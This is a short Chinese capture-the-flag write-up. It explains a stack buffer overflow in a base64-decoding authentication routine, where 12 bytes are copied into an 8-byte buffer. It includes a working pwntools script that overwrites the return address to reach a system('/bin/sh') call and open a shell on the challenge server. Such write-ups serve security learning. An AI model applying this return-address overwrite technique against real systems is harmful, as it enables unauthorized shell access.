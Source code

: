 # 挑战简介
还是那句话，理清逻辑很重要

# 思路
我们要理清这个题的逻辑

首先接收你的不超过0x30的数据，进行base64解码后，将解码后的数据长度与0xc做对比，也就是解码数据不超过12字节，在之后进入auth函数，会将input里面的数据复制进v4

突破点就在v4的栈空间大小，默认对比的长度是12字节，说明我们可以输入的字节为12，而v4的栈空间仅仅有8字节，所以我们顺便可以覆盖ret，返回到我们执行system-binsh的地址即可

```
from pwn import *
import base64
context(arch="i386", log_level="debug")

p = remote("pwn.challenge.ctf.show",28300)
elf = ELF('D:\edge 下载\pwn')

inpput = 0x0811EB40

system = 0x08049284

payload1 = b'a'*4 + p32(system) + p32(inpput)
 
payload1 = base64.b64encode(payload1)

p.sendline(payload1)

p.interactive()
```
